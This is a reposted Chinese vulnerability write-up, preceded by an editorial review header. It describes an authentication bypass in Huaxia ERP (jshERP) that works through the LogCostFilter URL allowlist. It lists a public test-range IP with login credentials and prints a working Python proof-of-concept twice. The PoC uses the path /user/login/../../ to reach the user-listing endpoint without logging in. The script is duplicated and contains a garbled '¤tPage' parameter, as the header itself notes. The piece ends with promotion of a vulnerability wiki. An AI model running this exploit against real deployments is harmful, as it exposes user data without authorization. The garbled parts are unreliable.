




## 核对与使用边界

- 分类更正：本文实际对象是 华夏ERP / jshERP，原 CMS 内容目录不能代替产品归属；只修正字段和分类建议，路径、来源和技术方法继续保留。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：LogCostFilter rawprefixallowlist vsdownstreamnormalization;deploymentversionunknown

- **事实待核（1）**：ERP不是CMS，应移企业应用/ERP；目录名完整文章标题造成产品碎片。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（2）**：请求/user/login/../../可能被requests/urllib3预先规范化，需原始路径发送证据，否则脚本会失去前缀绕过。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **结论使用边界（3）**：¤tPage实体污染应为currentPage参数；完全重复两份Python应合并。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（4）**：只200即成功未确认用户数据/权限差异，缺受影响版本和补丁。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **来源与引用处置（5）**：公网靶场IP/账号只实验资料不当授权，推广较长且源码仅网盘未锁版本。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 华夏 ERP 另一处授权绕过漏洞

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/-g7qxNoS-oa_mqh_msmaag)

继续这个测试靶场。。

<table cellspacing="0" cellpadding="0"><tbody><tr><td width="132" valign="top"><p>靶场地址</p></td><td width="421" colspan="2" valign="top"><p>http://47.116.69.14</p></td></tr><tr><td width="132" valign="top"><p>账户密码</p></td><td width="210" valign="top"><p><strong>jsh</strong></p></td><td width="210" valign="top"><p><strong>123456</strong></p></td></tr></tbody></table>

**1、描述**

  

华夏 ERP 基于 SpringBoot 框架和 SaaS 模式，可以算作是国内人气比较高的一款 ERP 项目，但经过源码审计发现其存在多个漏洞，本篇为第二处授权绕过漏洞。

  

  

  

  

  

**2、影响范围**

  

华夏 ERP  

  

  

  

  

  

**3、漏洞复现**

  

从开源项目本地搭建来进行审计，源码下载地址：

百度网盘 https://pan.baidu.com/s/1jlild9uyGdQ7H2yaMx76zw  提取码: 814g  

  

  

  

  

  

漏洞复现：

1、漏洞代码位置，利用 filter 做登录判断

```
com.jsh.erp.filter.LogCostFilter
```



如果 URL 开头匹配到了 allowUrls 中的内容则不跳转登录界面

追踪一下 allowUrls 的值：



```
[“/user/login”,”/user/registerUser”]
```

```
python3 华夏ERP授权绕过2.py http://ip:port
```

下面我们需要将 url 开头设置为数组中的内容即可：

就比如 / user/login/  



或者设置为 / user/registerUser/



POC

使用方法：

```
import sys,requests

def main(ip):
    url = "{ip}/user/login/../../user/getUserList?search=%7B%22userName%22%3A%22%22%2C%22loginName%22%3A%22%22%7D¤tPage=1&pageSize=15".format(ip=ip)
    res = requests.get(url,verify=False,timeout=5)
    if res.status_code == 200:
        print("+ {ip} 访问成功\n{data}".format(ip=ip,data=res.text))
main(sys.argv[1])
```

源码：

```
import sys,requests
def main(ip):
    url = "{ip}/user/login/../../user/getUserList?search=%7B%22userName%22%3A%22%22%2C%22loginName%22%3A%22%22%7D¤tPage=1&pageSize=15".format(ip=ip)
    res = requests.get(url,verify=False,timeout=5)
    if res.status_code == 200:
        print("+ {ip} 访问成功\n{data}".format(ip=ip,data=res.text))
main(sys.argv[1])
```

最后再给大家介绍一下漏洞库，地址：wiki.xypbk.com  


本站暂不开源，因为想控制影响范围，若因某些人乱搞，造成了严重后果，本站将即刻关闭。

漏洞库内容来源于互联网 && 零组文库 &&peiqi 文库 && 自挖漏洞 && 乐于分享的师傅，供大家方便检索，绝无任何利益。  

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。

若有愿意分享自挖漏洞的佬师傅请公众号后台留言，本站将把您供上，并在此署名，天天烧香那种！

  


扫取二维码获取

更多精彩


Qingy 之安全  


点个在看你最好看

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
